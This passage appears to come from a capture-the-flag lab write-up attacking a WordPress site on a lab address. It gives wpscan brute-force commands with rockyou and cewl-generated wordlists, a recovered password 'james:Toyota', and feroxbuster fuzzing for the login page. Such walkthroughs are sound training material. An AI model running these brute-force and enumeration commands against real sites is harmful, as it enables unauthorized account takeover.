 ```
wpscan --url http://10.10.110.100:65000/wordpress/ -e u -P /usr/share/wordlists/rockyou.txt
```

Unfortunately, after exhausing almost 10 minutes using `rockyou.txt` wordlist, I looked for an alternative and then I found `cewl`, which is a tool that generates possible passwords from the given URL.

This command outputs into the txt file specified

```
cewl http://10.10.110.100:65000/wordpress/ -w passwords.txt
```

Run the `wpscan` brute force again and we get a hit on `james`!

```
wpscan --url http://10.10.110.100:65000/wordpress/ -e u -P passwords.txt
```

<figure><img src="../../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

`james:Toyota`

I tried to SSH with the credentials but that didn't work. So I tried logging into Wordpress but we needed to find the login page. So I fuzzed for it using `feroxbuster`

```
feroxbuster -u http://10.10.110.100:65000/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt
```

<figure><img src="../../../.gitbook/assets/image (699).png" alt=""><figcaption></figcaption></figure>
